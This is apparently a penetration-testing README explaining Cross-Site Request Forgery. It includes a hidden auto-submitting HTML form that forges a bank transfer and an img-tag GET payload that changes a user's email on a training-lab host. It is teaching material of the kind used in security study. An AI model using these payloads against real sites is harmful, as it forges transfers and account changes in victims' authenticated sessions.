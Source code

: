 # Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
These attacks can be delivered via either the GET or POST method, depending on the scenario.


## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF using the POST method. To do this, we have to do the action we want to exploit in our own account and capture the resulting POST request. Once we have it, we create an html form to deliver it. 
We can use automated resources such as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or we can use the following script customizing it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First, we capture the POST method:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally, we create the CSRF PoC to deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />




## Basic CSRF via GET method EXPLOITATION:
- First, we capture the POST method of the parameter we want to change to our target. We have to **change the request methods** as follows:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0eedcfce-e96f-46bc-b6a0-ff3c709c3708" width="500"><br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/2eb78f8b-fd43-4d18-8641-713c7154e575" width="500"><br />


- Finally we can take the GET URL, changing the way we want to make all the changes we want to do in the victim, and finally delivered it, in this case as a <img>:<br />



  ```html
  <img src="https://0aef003d03e974bd832f197c007b0012.web-security-academy.net/my-account/change-email?email=changingEmail%40gmail.com" width="1" height="1" alt="Message"/>
  ```
  


